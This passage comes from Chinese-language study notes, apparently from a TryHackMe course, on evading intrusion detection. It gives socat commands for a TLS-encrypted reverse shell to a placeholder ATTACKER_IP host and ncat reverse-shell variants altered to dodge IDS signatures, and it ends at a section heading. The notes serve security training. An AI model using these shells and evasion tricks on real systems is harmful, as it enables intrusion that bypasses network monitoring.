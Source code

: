         - `req`: 证书签名请求。
        - `-x509`: X.509 证书。
        - `-newkey rsa:4096`: 新 RSA 4096 位密钥。
        - `-days 365`: 证书有效期。
        - `-subj`: 证书主题信息。
        - `-nodes`: 不加密私钥。
        - `-keyout`: 私钥文件名。
        - `-out`: 证书文件名。
        - `thm-reverse.pem`: 合并后的 PEM 文件，包含私钥和证书。
    2. **在攻击者机器上监听 (使用 `socat`)**: Bash
        
        Bash
        
        ```
        socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
        ```
        
        - `-d -d`: 调试信息。
        - `OPENSSL-LISTEN:4443`: 在 4443 端口使用 OpenSSL 加密监听。
        - `cert=thm-reverse.pem`: 指定 PEM 文件。
        - `verify=0`: 禁止检查对等方证书 (客户端不需要证书)。
        - `fork`: 为每个连接创建子进程。
        - `STDOUT`: 将子进程的输出重定向到监听器的标准输出。
    3. **在受害者机器上连接 (使用 `socat`)**: Bash
        
        Bash
        
        ```
        socat OPENSSL:ATTACKER_IP:4443,verify=0 EXEC:/bin/bash
        ```
        
        - `OPENSSL:ATTACKER_IP:4443`: 连接到攻击者的 OpenSSL 监听器。
        - `verify=0`: 不验证服务器证书的有效性 (对于自签名证书是必要的)。
        - `EXEC:/bin/bash`: 将 `/bin/bash` 进程的输入输出连接到 `socat`。
- **演示**:
    
    - 攻击者执行完步骤 1 和 2。
    - 受害者执行步骤 3，连接到攻击者。
    - 攻击者在其 `socat` 监听器上获得一个加密的 Shell。执行如 `cat /etc/passwd` 等命令，其内容在传输过程中是加密的，IDS/IPS 无法解析。

##### 2.3. 修改数据/Shellcode (Modifying Data/Shellcode)

- **原理**: 即使不使用复杂的编码或加密，对命令或 shellcode 进行微小的、功能等效的修改，也可能足以绕过不够健壮的 IDS 签名。
- **示例**:
    - 原始命令: `ncat -lvnp 1234 -e /bin/bash`
    - 规避扫描 `ncat -lvnp`:
        - 改变参数顺序: `ncat -nvlp 1234 -e /bin/bash` (许多程序允许参数顺序不同)
    - 规避扫描 `ncat -`:
        - 添加额外空格: `ncat -lvnp 1234 -e /bin/bash` (某些 shell 或解析器会忽略多余空格)
    - 替换工具: 使用 `nc`, `socat` 或其他功能类似的工具代替 `ncat`。
    - 对于 shellcode: 使用不同的编码器，添加 NOP (No Operation) 指令，改变指令顺序（如果逻辑允许），或使用多态/变形引擎生成不同的 shellcode 实例。

---

#### 3. 通过路由操纵进行规避 (Evasion via Route Manipulation)
